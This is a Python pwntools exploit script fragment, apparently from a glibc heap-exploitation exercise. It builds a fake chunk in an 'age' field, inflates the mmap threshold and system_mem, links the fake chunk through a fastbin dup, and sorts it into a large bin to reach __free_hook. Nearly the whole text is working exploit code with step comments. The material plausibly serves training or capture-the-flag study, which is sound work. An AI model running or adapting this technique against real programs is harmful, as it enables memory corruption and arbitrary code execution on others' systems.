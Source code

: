 ```python=
# Craft a fake chunk using the "age" field.
# Set its prev_inuse flag to avoid backward consolidation.
# This fake chunk has a size of 0, so it acts as its own forward consolidation guard.
age = 1;

io.sendafter(b"age: ", f"{age}".encode())
io.recvuntil(b"> ")


# =-=-=- INCREASE MMAP THRESHOLD -=-=-=

# Before we can increase the main arena's system_mem value, we must increase the mmap_threshold.
# We do this by requesting then freeing a chunk with size beyond the mmap threshold.
mem = malloc(0x5fff8, b"Y"*8) # Allocated via mmap().
free(mem) # Freeing an mmapped chunk increases the mmap threshold to its size.


# =-=-=- INCREASE SYSTEM_MEM -=-=-=

# Now that the mmap threshold is beyond 0x60000, requesting chunks of that size will allocate them
# from a heap, rather than via mmap().
# This in turn will increase the total memory checked out from the kernel, which is tracked by
# an arena's system_mem field.
mem = malloc(0x5fff8, b"Z"*8)


# =-=-=- LINK FAKE CHUNK INTO A FASTBIN -=-=-=

# Leverage a fastbin dup to link the fake "age" chunk into the 0x20 fastbin.
dup = malloc(0x18, b"A"*8)
safety = malloc(0x18, b"B"*8)

free(dup)
free(safety)
free(dup)

malloc(0x18, pack(elf.sym.user)) # Address of fake chunk.


# =-=-=- CONSOLIDATE FAKE CHUNK INTO UNSORTEDBIN -=-=-=

# Trigger malloc_consolidate() to move the fake chunk from the fastbins into the unsortedbin.
# Use a consolidation with the top chunk to achieve this.
consolidate = malloc(0x88, b"C"*8)
free(consolidate)


# =-=-=- SORT FAKE CHUNK INTO BIN 126 -=-=-=

# Sort the fake chunk into bin 126 by setting its size to the minimum required to qualify for it,
# then requesting a chunk larger than the fake chunk.
# This part is where the unsortedbin size sanity check would catch us if we hadn't increased system_mem.
amend_age(0x80001)
malloc(0x80008, b"D"*8)

# Increase the fake chunk size so that it can reach the free hook.
# Making this value too large will fail the size sanity check during unsortedbin allocation
# of the following chunk. It can also trigger segfaults or busfaults when the remaindering code
# attempts to update the prev_size field of the succeeding chunk.
distance = (libc.sym.__free_hook - 0x20) - elf.sym.user
amend_age(distance + 0x29)

```